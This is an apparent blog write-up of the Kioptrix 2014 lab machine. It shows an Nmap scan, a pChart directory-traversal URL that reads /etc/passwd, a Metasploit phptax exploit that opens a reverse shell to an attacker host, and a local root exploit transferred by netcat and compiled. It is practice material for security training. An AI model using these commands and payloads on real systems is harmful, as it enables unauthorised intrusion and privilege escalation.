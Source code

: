 ```yaml
---
layout: post
title: "Kioptrix 2014"
date: 2014-06-27 19:01:09 +0300
comments: true
categories: [kioptrix, penetration testing, hacking, security]
keywords: kioptrix, penetration testing, hacking, security
description: Penetration testing Kioptrix 2014
---
```


Right when I thought I was finished with the Kioptrix vulnerable machines, I discovered there is a new addition to the series! This is great, because I really enjoyed the Kioptrix challenges! So let's dive in!
<!-- more -->

First, if you have problems with booting it up, check out the fix and instructions from http://vulnhub.com/entry/kioptrix_2014-5,62/

Let's fire Nmap:

``` plain
nmap -A -p1-65535 192.168.127.130

Starting Nmap 6.46 ( http://nmap.org ) at 2014-06-27 19:14 EEST
Nmap scan report for 192.168.127.130
Host is up (0.0031s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
| http-methods: Potentially risky methods: TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-methods: No Allow or Public header in OPTIONS response (status code 403)
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:BB:7C:98 (VMware)
Device type: general purpose
Running: FreeBSD 7.X|8.X|9.X
OS CPE: cpe:/o:freebsd:freebsd:7 cpe:/o:freebsd:freebsd:8 cpe:/o:freebsd:freebsd:9
OS details: FreeBSD 7.0-RELEASE - 9.0-RELEASE
```

Next I used the browser to check what is being hosted on ports 80 and 8080. On port 80 there is just an "It works!" message, and on port 8080 I got the Forbidden message. But on port 80's page source code, there is a comment revealing additional functionality:

``` html
<META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
```

{% img center /images/pchart.png 'pchart' 'pchart' %}

Searching for pChart reveals that this version is affected by [directory traversal and XSS](http://www.exploit-db.com/exploits/31173/)

So we can read any file that the web server is sufficiently privileged to read with the following string:

``` plain
http://192.168.127.130/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd
```

In this case, there wasn't much information that could be of further use, and I wasn't able to read /etc/shadow, which was to be expected. Fortunately, the Apache configuration file is helpful. Since this is a FreeBSD system, the file is located in <code>/usr/local/etc/apache2x/httpd.conf</code> , *x* being the version number. At the moment, the only thing I could find interesting was this part at the very end of the file:

``` plain
SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser

<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>
```

So it appears that a certain user agent receives special treatment! Let's verify this by changing the UA (I used the User Agent Switcher add-on for Firefox). And when I went to http://192.168.127.130:8080/ , there was a directory index for something called phptax! No more forbidden errors!

{% img center /images/phptax.png 'phptax' 'phptax' %}

So, [the program](http://sourceforge.net/projects/phptax/) is used to generate PDFs. The good news (for us, not for the dilligent tax payers) is that it's [vulnerable to remote code execution](http://www.exploit-db.com/exploits/21665/), and there's also a Metasploit module available for it:

**PhpTax pfilez Parameter Exec Remote Code Injection**

> This module exploits a vulnerability found in PhpTax, an income tax report 
> generator. When generating a PDF, the icondrawpng() function in drawimage.php does 
> not properly handle the pfilez parameter, which will be used in a exec() statement, 
> and then results in arbitrary remote code execution 
> under the context of the web  server. Please note: authentication is not required to exploit this vulnerability.

``` plain
msf > use exploit/multi/http/phptax_exec
msf exploit(phptax_exec) > show options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        Use a proxy chain
   RHOST                       yes       The target address
   RPORT      80               yes       The target port
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8


msf exploit(phptax_exec) > set RHOST 192.168.127.130
RHOST => 192.168.127.130
msf exploit(phptax_exec) > set RPORT 8080
RPORT => 8080
msf exploit(phptax_exec) > set payload cmd/unix/reverse 
payload => cmd/unix/reverse
msf exploit(phptax_exec) > set LHOST 192.168.127.159
LHOST => 192.168.127.159
msf exploit(phptax_exec) > exploit

[*] Started reverse double handler
[*] 192.168.127.1308080 - Sending request...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ROZVUxzhMsI70Nsb;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "ROZVUxzhMsI70Nsb\r\n"
[*] Matching...
[*] A is input...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo D6E80V1rZ169oQA6;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "D6E80V1rZ169oQA6\r\n"
[*] Matching...
[*] B is input...

whoami
www
```

We managed to break through. Now let's see how we can become root. I used [this mmap/ptrace exploit](http://www.exploit-db.com/exploits/26368/)

I downloaded it to my machine and served it on netcat, than I connected from the victim to the attacker machine and saved the file to the /tmp directory. From there, it was a matter of compiling it and running it:

``` plain
gcc -o exploit 26368.c
chmod a+x exploit
./exploit
whoami
root
```

In the /root directory, there's another congrats.txt from loneferret:

``` plain
cat congrats.txt
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in 
mind, and not meant for the seasoned pentester. However this does not mean one 
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
and "hope" it works, but think about the traffic.. the logs... Best to take it
slow, and read up on the information you gathered and hopefully craft better
more targetted attacks. 

For example, this system is FreeBSD 9. Hopefully you noticed this rather quickly.
Knowing the OS gives you any idea of what will work and what won't from the get go.
Default file locations are not the same on FreeBSD versus a Linux based distribution.
Apache logs aren't in "/var/log/apache/access.log", but in "/var/log/httpd-access.log".
It's default document root is not "/var/www/" but in "/usr/local/www/apache22/data".
Finding and knowing these little details will greatly help during an attack. Of course
my examples are specific for this target, but the theory applies to all systems.

As a small exercise, look at the logs and see how much noise you generated. Of course
the log results may not be accurate if you created a snapshot and reverted, but at least
it will give you an idea. For fun, I installed "OSSEC-HIDS" and monitored a few things.
Default settings, nothing fancy but it should've logged a few of your attacks. Look
at the following files:
/root/folderMonitor.log
/root/httpd-access.log (softlink)
/root/ossec-alerts.log (softlink)

The folderMonitor.log file is just a cheap script of mine to track created/deleted and modified
files in 2 specific folders. Since FreeBSD doesn't support "iNotify", I couldn't use OSSEC-HIDS 
for this.
The httpd-access.log is rather self-explanatory .
Lastly, the ossec-alerts.log file is OSSEC-HIDS is where it puts alerts when monitoring certain
files. This one should've detected a few of your web attacks.

Feel free to explore the system and other log files to see how noisy, or silent, you were.
And again, thank you for taking the time to download and play.
Sincerely hope you enjoyed yourself.

Be good...


loneferret
http://www.kioptrix.com


p.s.: Keep in mind, for each "web attack" detected by OSSEC-HIDS, by
default it would've blocked your IP (both in hosts.allow & Firewall) for
600 seconds. I was nice enough to remove that part :)
```

This concludes the Kioptrix series, and cheers to **loneferret** for creating these awesome challenges!

> Today is the first day of the rest of the mess.
